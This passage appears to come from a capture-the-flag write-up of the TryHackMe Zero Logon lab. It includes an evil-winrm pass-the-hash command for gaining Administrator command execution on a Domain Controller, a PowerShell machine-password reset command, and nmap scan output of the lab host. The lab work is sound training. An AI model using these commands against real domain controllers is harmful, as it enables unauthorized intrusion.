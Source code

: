 **Time to Play -**

Now that you've learned about Zero Logon, it's time to put your new found skills to the test and exploit this vulnerable Domain Controller!

**Ctrl+Z -**

After you get done, if you want to play around some more, instead of terminating the machine, you can simply issue the following command to reset the machine back to it's original state:

```ps1
powershell.exe -c 'Reset-ComputerMachinePassword'
```

If you're confused on how to issue the command, you can simply Pass The Local Admin Hash with Evil-WinRM to gain command execution. You can do so with the following command:

```
evil-winrm -u Administrator -H <Local Admin Hash> -i <Machine IP>
```

```
(impacketEnv) bibo318@parrot:~/CTFs/tryhackme/Zero Logon$ nmap -sV -sC 10.10.162.183
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-30 15:22 CET
Nmap scan report for 10.10.162.183
Host is up (0.040s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Holo.Live
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-30 14:22:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HOLOLIVE
|   NetBIOS_Domain_Name: HOLOLIVE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hololive.local
|   DNS_Computer_Name: DC01.hololive.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-30T14:24:34+00:00
| ssl-cert: Subject: commonName=DC01.hololive.local
| Not valid before: 2020-09-19T17:58:40
|_Not valid after:  2021-03-21T17:58:40
|_ssl-date: 2020-10-30T14:24:49+00:00; +1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/30%Time=5F9C219D%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
```